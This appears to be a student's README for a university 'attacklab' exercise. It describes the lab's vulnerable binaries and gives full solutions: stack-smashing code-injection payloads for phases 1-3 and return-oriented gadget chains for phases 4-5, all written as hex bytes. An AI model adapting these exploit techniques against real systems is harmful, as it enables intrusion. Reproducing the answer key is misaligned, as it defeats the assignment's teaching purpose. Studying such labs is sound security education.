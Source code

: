 This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.

# note
- generate raw: `./hex2raw < ctarget.inp > raw1.inp`
- debug that raw in gdb: `r < raw1.inp`

# Solution
### Phase 1:
- filling 0x18 bytes to override the return address of stack, add a few padding
- [this write-up is too good](https://github.com/magna25/Attack-Lab/blob/master/Phase%201.md)

### Phase 2:

48 83 ec 08 // sub $0x8,%rsp
48 c7 44 24 00 02 17 40 00  // movq   $0x00401702,0x0(%rsp)
c3// ret
00 00 00 00 00 // padding
88 74 61 55 // address of first ins below



ret -> to next first of instruction in the stack as string
88 74 61 55 // address of first ins below

mov $50fa73aa, $rdi
bf aa 73 fa 50 // bf = set value to rdi

rsp grow down to put phase two as the old position
48 83 ec 08 // sub $0x8,%rsp

put phase address to stack
02 17 40 00
48 c7 44 24 00 02 17 40 00 
48 c7 44 24 08 20 45 60 00	movq   $0x604520,0x8(%rsp)

ret
c3

- [this write-up is also gold](https://github.com/magna25/Attack-Lab/blob/master/Phase%202.md)

#### optimization
this phase can be shorter by override ret for stack, don't need sub rsp those stuff, google for better Solution

### Phase 3:
48 c7 c7 b0 74 61 55 // set address of string to rdi
c3 // ret
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 74 61 55 00 00 00 00 // first ret (first rsp), jump to above ins
d6 17 40 00 00 00 00 00 // second ret (2nd rsp), jump to touch3
35 30 66 61 37 33 61 61 // string value of cookie
00


### Phase 4
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
7b 18 40 00 00 00 00 00 // first gadget - popq rax
aa 73 fa 50 00 00 00 00 // store cookie here
66 18 40 00 00 00 00 00 // second gadget - mov rax rdi
02 17 40 00 00 00 00 00 // touch2 address

### phase 5
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
7b 18 40 00 00 00 00 00 // pop rax
20 00 00 00 00 00 00 00 // value relative from the * position to address of cookie
de 18 40 00 00 00 00 00 // mov eax, ecx
b0 18 40 00 00 00 00 00 // mov ecx, edx
41 19 40 00 00 00 00 00 // mov edx, esi
c4 18 40 00 00 00 00 00 // mov rsp, rax
91 18 40 00 00 00 00 00 // mov rax, rdi
a2 18 40 00 00 00 00 00 // lea (rdi, rsi, 1), rax
91 18 40 00 00 00 00 00 // mov rax, rdi *
d6 17 40 00 00 00 00 00 // touch3 address
35 30 66 61 37 33 61 61 // string value of cookie
00
